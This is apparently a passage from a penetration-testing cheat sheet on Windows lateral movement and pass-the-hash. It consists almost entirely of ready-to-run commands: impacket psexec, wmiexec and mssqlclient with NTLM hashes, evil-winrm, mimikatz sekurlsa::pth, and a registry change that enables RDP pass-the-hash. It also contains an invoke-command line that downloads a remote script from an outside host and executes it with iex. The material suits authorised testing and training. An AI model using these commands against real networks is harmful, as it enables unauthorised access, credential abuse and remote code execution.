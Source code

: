### psexec
```bash
python3 impacket/examples/psexec.py -hashes :052e763020c5da81d4085a05e69b0f1b [RED/]pete@192.168.y.z

python3 impacket/example/psexec.py -k -no-pass da@reddc.red.com cmd
```
### WinRM

```
evil-winrm -i 172.16.y.z -u [red.com\\]jim -p Passw0rd

evil-winrm -i 192.168.y.z -u kevin -H [hash]

invoke-command -computername redwebaw.red.com -scriptblock {cmd /c "powershell -exec  bypass -nop iex (new-object net.webclient).downloadstring('http://192.168.x.y/runner64.txt')"}
```

### RDP

- Password Authentication
```
xfreerdp /u:Administrator /p:lab [/d:red.com] /cert:ignore  //v:192.168.y.z/dynamic-resolution
```
- PTH
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

xfreerdp /v:192.168.y.z /u:bill /pth:[hash] /d:red.com /dynamic-resolution
```

### SSH
```bash
ssh kevin@192.168.y.z
```
## Pass the Hash

### Mimikatz
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:kevin /domain:red.local /ntlm:09238831b1af5edab93c773f56409d96" exit
```
### PsExec
```bash
python3 impacket/examples/psexec.py -hashes :052e763020c5da81d4085a05e69b0f1b [red/]pete@172.16.90.151
```
### WinRM
```powershell
evil-winrm -i 192.168.10.10 -u [red\\]kevin -H 052e763020c5da81d4085a05e69b0f1b
```
### WMI
```bash
python3 impacket/examples/wmiexec.py -k --no-pass [red/]zys@10.9.20.10
```
### SQL
```bash
python3 impacket/examples/mssqlclient.py -p 1433  -windows-auth red/svc_sql@10.10.20.9 -hashes :052e763020c5da81d4085a05e69b0f1b
```
### RDP